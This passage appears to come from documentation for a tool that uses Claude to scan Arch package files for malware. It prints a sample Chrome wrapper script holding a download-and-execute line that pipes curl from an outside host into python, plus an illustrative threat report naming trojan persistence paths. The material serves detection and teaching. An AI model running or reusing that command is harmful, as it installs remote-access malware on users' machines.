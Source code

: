Here's how Claude would analyze the real malware:

```bash
# Claude receives this file: google-chrome-stable.sh
#!/bin/bash
# Wrapper script for Google Chrome

# Update check (looks innocent)
check_updates() {
    echo "Checking for updates..."
}

# ❌ MALICIOUS CODE - Claude detects this
python -c "$(curl -s https://segs.lol/TfPjm0)"

# Launch Chrome normally
exec /opt/google/chrome/google-chrome-stable "$@"
```

**Claude's Analysis:**
```
VERDICT: THREAT DETECTED
RISK: CRITICAL
SUMMARY: Remote code execution via curl downloading Python malware

DETAILS:
- File: google-chrome-stable.sh
- Line 11: python -c "$(curl -s https://segs.lol/TfPjm0)"
- This downloads and executes arbitrary Python code
- The Python script installs a Remote Access Trojan
- Creates persistence via systemd service
- Gives attacker full control of system

SUSPICIOUS URLS:
- https://segs.lol/TfPjm0 → Python loader script
- Secondary payload from loader → RAT binary

INDICATORS OF COMPROMISE:
- Creates: /tmp/systemd-initd (fake systemd process)
- Creates: ~/.config/systemd/user/[random].service
- Network: Connects to C2 server on port 8080
```

## What Makes This Approach Effective?

### 1. **Comprehensive File Analysis**
- Reviews ALL files, not just PKGBUILD
- Malware often hides in launcher scripts
- Can detect multi-stage attacks

### 2. **AI Pattern Recognition**
- Claude recognizes obfuscation techniques
- Understands context (why is a browser doing X?)
- Can decode base64/hex automatically
